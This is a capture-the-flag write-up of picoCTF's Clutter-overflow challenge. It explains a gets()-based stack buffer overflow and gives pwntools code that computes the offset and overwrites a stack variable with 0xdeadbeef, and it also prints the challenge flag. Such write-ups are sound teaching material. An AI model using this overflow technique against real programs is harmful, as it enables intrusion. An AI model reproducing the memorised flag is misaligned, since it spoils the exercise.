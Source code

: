 # Clutter-Overflow

## Introduction

Clutter-overflow is a 150 point binary exploitation problem from picoCTF. The description states:

> Clutter, clutter everywhere and not a byte to use.
> `nc mars.picoctf.net 31890`

We are given the source, the compiled executable, and the address:port to connect on.

## Information Gathering

No hints were given, but we do have source code.

### Vulnerability Mitigations

```shell
$ checksec chall
[*] '/home/sean/Dev/picoCTF/binary-exploitation/clutter-overflow/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

### Static

At the top, there is a header defined obnoxiously to make some sort of ASCII art. It looks like a living room. There is only one function, `main`, and it instantiates an integer and a buffer of size 0x100 onto the stack called `clutter`, prints out the header ascii art, and calls `gets` to place user input into `clutter`. It then checks if the integer located above the `clutter` buffer on the stack is equivalent to `0xdeadbeef`. If so, the remote server will print out the flag for us.

### Dynamic

If we run the program with a simple input that will cause a segmentation error we get the following result:

```
My room is so cluttered...
What do you see?
$ aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
code == 0x6161616161616161
```

Because it tells us the value of `code`, we can easily determine the offset. This means we don't even need to touch a debugger. Nice!

## Strategy

`gets` is a bad function. Even the `man` page tells you not to use it (actually). Let's send a cyclic pattern to `gets` and observe what the result of the integer `code` is. We should overwrite this value and from there we can calculate our offset to `code` on the stack. Once we know the offset, we can send `0xdeadbeef` and get our flag.

We get our offset by applying the cyclic pattern and then searching for it in the output.

```python
def calc_offset():
    '''Determine what the offset it to `code` on the stack. This is the location that we will write `0xdeadbeef`.
    '''

    # We don't want to reuse our existing process because this will cause the program to fault.
    conn = process([exe.path])

    # Generate our cyclic pattern.
    pattern = cyclic(length=NUM_CYCLIC_BYTES, n=exe.bytes)

    # Send out pattern to the program.
    conn.sendlineafter(delim=BANNER, data=pattern)

    # The program conveniently tells us what the value of `code` is after we have overwritten it, so let's parse that.
    code = conn.recvline_containsS(items='code == ')
    code = code.partition('code == 0x')[2]
    code = int(code, base=16)

    offset = cyclic_find(code, n=exe.bytes)
    log.info(f'The offset to code is : {offset}')

    return offset
```

We then tack on `0xdeadbeef` to the end, creating our payload. If we send that over to the remote server, we get the flag!

```python
# Create our payload at the offset we just learned.
    payload = fit({
        offset: MAGIC_PATTERN
    })

    # Send it!
    r.sendlineafter(delim=BANNER, data=payload)

    # Get the flag back.
    flag = r.recvline_contains(b'picoCTF')
```

And the flag is: `picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`.
